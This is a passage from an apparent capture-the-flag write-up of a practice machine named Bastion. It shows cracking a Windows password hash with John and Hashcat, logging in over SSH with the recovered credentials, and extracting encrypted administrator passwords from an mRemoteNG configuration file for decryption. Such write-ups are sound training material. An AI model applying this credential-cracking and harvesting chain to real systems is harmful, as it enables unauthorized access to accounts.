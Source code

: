 ### Hash cracking

#### John
John didn't produce any result as far as I could see, or it took too long so i switched over to Hashcat instead. 

```shell
john --format=LM --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```

#### Hashcat
A personal preference tends to be hashcat over john, but that's because i can utilize the GPU and get some better performance instead of using John inside the VM.

```shell
hashcat64 -m 1000 -a 0 hash.txt rockyou.txt
26112010952d963c8dc4217daec986d9:bureaulampje
```

Great, now we have a user and a password, time to get to the next step.

## Exploitation
Because port `22` is open, we try the found credentials with the SSH port and see that it's possible to login.

```shell
ssh L4mpje@10.10.10.134 

user: L4mpje 
pass: bureaulampje

l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt                                                                            
9bfe57d5c3309db3a151772f9d86c6cd      
```


## Privilege Escalation
After some internal enumeration on the box, an interesting folder was found with some configuration files in a XML format. 

```shell
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>
type confCons.xml

Username="L4mpje" Domain="" Password="yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB"

Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
```

And after some googling, a python script to decrypt those types of passwords was found: [github](https://raw.githubusercontent.com/haseebT/mRemoteNG-Decrypt/master/mremoteng_decrypt.py)
